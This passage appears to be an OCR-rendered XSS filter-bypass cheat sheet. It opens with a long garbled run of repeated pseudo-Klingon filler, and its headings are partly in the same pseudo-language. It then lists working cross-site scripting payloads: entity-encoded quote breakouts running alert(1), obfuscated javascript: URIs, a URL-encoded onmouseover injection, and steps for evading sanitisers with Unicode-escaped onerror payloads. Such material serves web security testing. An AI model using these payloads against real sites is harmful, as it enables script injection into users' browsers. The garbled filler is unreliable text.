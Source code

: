 **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS** **value** **ghaHtaHvIS
```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```
**ghItlhvam, URL encode jImej.**
```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```
**Bypass inside event using Unicode encode**

**Unicode encode-** Unicode encoding is a technique used to bypass certain security measures in web applications that filter or sanitize user input. By encoding special characters using their Unicode representation, it is possible to bypass filters and inject malicious code into the application.

To bypass an inside event using Unicode encode, follow these steps:

1. Identify the vulnerable input field or parameter where the event is being filtered or sanitized.
2. Determine the Unicode representation of the special characters you want to inject. For example, the Unicode representation of the less than sign (<) is \u003c.
3. Encode the special characters using their Unicode representation and inject them into the input field or parameter. For example, if the input field is vulnerable to a script injection, you can inject the following payload: `"><img src=x onerror=alert('\u0068\u0061\u0063\u006b\u0065\u0064')>`.
4. Submit the payload and observe the behavior of the application. If the payload is successful, the injected code will be executed.
